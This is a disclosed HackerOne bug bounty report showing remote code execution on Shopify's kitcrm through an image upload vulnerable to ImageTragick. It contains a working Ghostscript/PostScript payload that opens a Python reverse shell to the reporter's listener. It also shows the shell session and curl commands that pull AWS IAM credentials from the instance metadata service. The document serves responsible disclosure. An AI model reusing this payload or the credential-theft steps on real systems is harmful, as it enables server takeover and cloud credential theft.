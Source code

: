 # H1514 Remote Code Execution on kitcrm using bulk customer update of Priority Products

## Report Details
- **Report ID**: 422944
- **URL**: https://hackerone.com/reports/422944
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-10-12T12:41:23.232Z
- **Disclosed**: 2020-02-06T00:29:03.449Z

## Reporter
- **Username**: fransrosen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

### Background

kitcrm.com allows the administrator to upload priority product images located at:

https://kitcrm.com/seller/onboarding/1

{F359446}

{F359447}

These images are not being checked if they are real JPG/PNG/GIF. When uploading an ImageTragick (issue found my Tavis Ormandy) using the following payload (my netcat listener is on `██████████:8080`:

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("█████",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops

```

Then connecting kitcrm to Facebook Messenger, and writing the following commands to kit:

{F359445}

{F359443}

{F359444}

A reverse shell will be created to my host:

```sh
Listening on [0.0.0.0] (family 0, port 8080)
Connection from [52.38.69.6] port 8080 [tcp/http-alt] accepted (family 2, sport 35486)
sh: no job control in this shell
sh-4.2$ whoami
whoami
deploy
sh-4.2$ ls
ls
app
bin
config
config.ru
db
deploy
dev.yml
doc
Gemfile
Gemfile.lock
integration
lib
log
misc
package.json
public
railgun.yml
Rakefile
README.md
script
service.yml
spec
tmp
vendor
yarn.lock
```

I can also confirm this is internally for Shopify since the README refers to an internal repo of github.com/Shopify:

```
sh-4.2$ cat README.md
cat README.md
This is the Kit CRM Repo.

## Continuous Integration

[![CircleCI](███████)

## Important resources

### Production

- datadog metrics dashboards [open](█████)
- bugsnag for exceptions [open](██████)
- papertrail for logs [open](████████)
- newrelic for some other monitoring [open](████)


## Deploying

See [Deploying Kit](█████)

## Development setup:

Please see [Dev Environment Setup](████)


## Initializers

to help us order initializers we use number prefixes. These will help us be explicit about ordering.

| Range | What it's for |
| ----- | ------------- |
| 0-9   | Configurations many things including rails would use |
| 10-19 | Rails configuration |
| 20-39 | Gem configuration |
| 40-59 | Adjusting any configured libraries |
| 60-89 | Make use of any libraries |
| 90-99 | Just need these to run but don't really care about the order |
sh-4.2$
```

I also verified I can access AWS metadata:

```sh
sh-4.2$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

██████████

sh-4.2$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/████████
                
{
  "Code" : "Success",
  "LastUpdated" : "2018-10-12T11:39:10Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "█████████",
  "SecretAccessKey" : "█████████",
  "Token" : "██████████",
  "Expiration" : "2018-10-12T18:09:12Z"
}
```

I did try to list S3-buckets, and checked the assumed-role:

```
{
    "UserId": "█████",
    "Account": "█████",
    "Arn": "arn:aws:sts::████████:█████████"
}
```

You should immediately make sure Postscript files cannot be uploaded here, or urgently update or remove Ghostscript from the imagemagick instance.

Regards,
Frans and Mathias

## Impact

#

## Attachments
- Screen_Shot_2018-10-12_at_14.36.55.png
- Screen_Shot_2018-10-12_at_14.37.00.png
- Screen_Shot_2018-10-12_at_14.36.47.png
- Screen_Shot_2018-10-12_at_14.27.32.png
- Screen_Shot_2018-10-12_at_14.27.35.png
